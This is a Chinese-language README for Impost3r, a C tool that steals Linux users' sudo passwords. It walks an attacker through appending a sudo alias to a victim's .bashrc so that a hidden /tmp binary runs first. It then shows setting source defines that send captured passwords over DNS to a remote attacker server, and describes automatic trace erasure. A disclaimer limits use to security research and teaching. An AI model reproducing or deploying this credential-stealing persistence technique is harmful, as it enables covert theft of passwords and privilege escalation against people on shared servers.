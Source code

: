 ![imposter.png](https://github.com/ph4ntonn/Impost3r/blob/master/img/Impost3r.png)

# Impost3r

[![GitHub issues](https://img.shields.io/github/issues/ph4ntonn/Impost3r)](https://github.com/ph4ntonn/Impost3r/issues)
[![GitHub stars](https://img.shields.io/github/stars/ph4ntonn/Impost3r)](https://github.com/ph4ntonn/Impost3r/stargazers)
[![GitHub forks](https://img.shields.io/github/forks/ph4ntonn/Impost3r)](https://github.com/ph4ntonn/Impost3r/network)
[![GitHub license](https://img.shields.io/github/license/ph4ntonn/Impost3r)](https://github.com/ph4ntonn/Impost3r/blob/master/LICENSE)

Impost3r是一个利用C语言编写,用来窃取linux下sudo密码的工具

用户可使用此程序在普通用户权限下，制造水坑，窃取合法用户的sudo密码

> 此工具仅限于安全研究和教学，用户承担因使用此工具而导致的所有法律和相关责任！ 作者不承担任何法律和相关责任！

## 特性

- 自动擦除行为痕迹
- 通过DNS协议传输结果
- 用户无感

## 依赖

- gcc

## 使用方法

- 首先假设攻击者控制了一台服务器，权限为普通用户权限

- 拷贝一份用户的.bashrc```cp ～/.bashrc /tmp/```，并将这份副本放在攻击者自定义的路径下(本例中放置在/tmp/目录下，攻击者可以修改)

- 修改用户根目录下的.bashrc(～/.bashrc)，在最后一行添加如下语句：

```
alias sudo='impost3r() {
if [ -f "/tmp/.impost3r" ]; then
/tmp/.impost3r "$@" && unalias sudo
else
unalias sudo;sudo "$@"
fi
}; impost3r'
```

- 添加完成后，保存文件并执行```source ~/.bashrc```

- 接着攻击者需要对Impost3r源代码进行修改：

```
# define MAX_RESEND 30  \\设置当窃取到密码之后，Impost3r向攻击者服务器发送用户密码的最大重试次数
# define RESEND_INTERVAL 5  \\设置每一次发送密码的间隔
# define FILENAME "/tmp/.impost3r"  \\设置Impost3r在目标服务器上的位置
# define BACKUP_BASHRC "/tmp/.bashrc" \\设置攻击者备份的源.bashrc在目标服务器上的位置
# define REMOTE_ADDRESS "192.168.0.12" \\设置回送密码的远程地址
# define REMOTE_PORT 53 \\设置回送密码的远程端口
```
- 修改完成后，保存并在当前目录执行```make```

- 在当前目录下得到编译完成的```.impost3r```文件

- 上传```.impost3r```文件至目标服务器的```/tmp/```文件夹下(仅为示例，可自行修改，只需与源代码中定义相同即可)

- 攻击者在自己的服务器上启动dns服务端程序，等待合法用户使用```sudo```后获取密码。

## 窃取效果

![image](https://github.com/ph4ntonn/Impost3r/blob/master/img/Impost3r.gif) 

## 注意事项

- Dns服务端程序我使用的是[Fdns](https://github.com/deepdarkness/Fdns)，并修改了一部分参数，大家可在文件夹Fdns下找到修改后的源代码，请自行利用命令```gcc -o dns main.c util.c```编译,当然，也可以用别的dns服务端程序，这里并不受限，但是必须是会回复dns response的服务端程序，而不是仅解析dns request。
- 程序窃取密码成功后将会自动擦除痕迹，并不需要攻击者上去手动清理
- 此程序仅是闲暇时开发学习，功能可能存在bug，请多多谅解，也欢迎反馈问题

### 致谢

- [Fdns](https://github.com/deepdarkness/Fdns) 
